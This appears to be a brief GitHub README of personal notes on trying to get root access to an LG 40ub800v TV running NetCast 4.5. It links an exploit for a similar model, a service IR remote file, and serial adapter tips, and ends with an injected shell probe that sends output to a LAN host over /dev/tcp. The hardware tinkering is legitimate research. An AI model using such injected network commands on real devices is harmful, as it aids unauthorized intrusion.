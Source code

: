 # lg-40ub800v
Exploring NetCast4.5 on lg 40ub800v

Exploit of a similar model:

https://www.encrypted.at/remote-root-shell-on-lg-tv-2013-netcast-models/

Service Remote IR File:

https://github.com/logickworkshop/Flipper-IRDB/blob/main/TVs/LG/LG_MKJ39170828_Service.ir

Charriot Endpoint is startable

Exploit from article above does not work

Thought about something like this:



Serial adapter(?):

you can connect a PL2303-based USB/serial adapter
although it may require specific VID/PID (aten UC232)

Testing TCP Connections?

Maybe this works?

```
"Hi from LGTV at $(uname -n)" 2>/dev/null > /dev/tcp/192.168.178.123/8989"
```
